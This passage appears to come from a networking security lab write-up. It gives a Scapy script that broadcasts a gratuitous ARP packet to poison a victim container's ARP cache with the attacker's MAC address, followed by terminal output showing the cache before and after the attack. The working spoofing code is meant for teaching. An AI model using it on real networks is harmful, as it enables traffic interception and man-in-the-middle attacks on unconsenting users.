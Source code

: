```python
# Build gratuitous ARP
arp_grat = ARP(
    op=1,                       # ARP request
    psrc=b_ip,                  # Claim to be B (pretending to be B IP Address)
    hwsrc=m_mac,                # Send M's MAC (attacker's MAC)
    pdst=b_ip,                  # Destination IP same as source (gratuitous)
    hwdst="00:00:00:00:00:00"   # Ignored in request, optional
)

eth = Ether(src=m_mac, dst="ff:ff:ff:ff:ff:ff") # Broadcast MAC address

pkt = eth / arp_grat        # Combine Ethernet and ARP layers
sendp(pkt, iface="eth0")    # Send the packet on the specified interface
```

#### Output
```
// Attacker M Container
seed@VM> docker cp ARP-Gratuitous.py M-10.9.0.105:/tmp/
seed@VM> docksh M-10.9.0.105
root@M-10.9.0.105:/# python3 /tmp/ARP-Gratuitous.py
	.
	Sent 1 packets.

// Victim A Container
seed@VM> docksh A-10.9.0.5
root@A-10.9.0.5:/# ping 10.9.0.6
	PING 10.9.0.6 (10.9.0.6) 56(84) bytes of data.
	64 bytes from 10.9.0.6: icmp_seq=1 ttl=64 time=0.396 ms
	64 bytes from 10.9.0.6: icmp_seq=2 ttl=64 time=0.148 ms
	64 bytes from 10.9.0.6: icmp_seq=3 ttl=64 time=0.163 ms
	64 bytes from 10.9.0.6: icmp_seq=4 ttl=64 time=0.171 ms
	^C
	--- 10.9.0.6 ping statistics ---
	4 packets transmitted, 4 received, 0% packet loss, time 3078ms
	rtt min/avg/max/mdev = 0.148/0.219/0.396/0.102 ms
// Scenario 1: B’s IP is already in A’s cache
// Before Attack
root@A-10.9.0.5:/# arp -n
	Address                  HWtype  HWaddress           Flags Mask            Iface
	10.9.0.6                 ether   02:42:0a:09:00:06   C                     eth0
// After Attack
root@A-10.9.0.5:/# arp -n
	Address                  HWtype  HWaddress           Flags Mask            Iface
	10.9.0.6                 ether   02:42:0a:09:00:69   C                     eth0
// Scenario 2: B’s IP is not in A’s cache
// Before Attack
root@A-10.9.0.5:/# arp -d 10.9.0.6
root@A-10.9.0.5:/# arp -n
// After Attack
root@A-10.9.0.5:/# arp -n
```
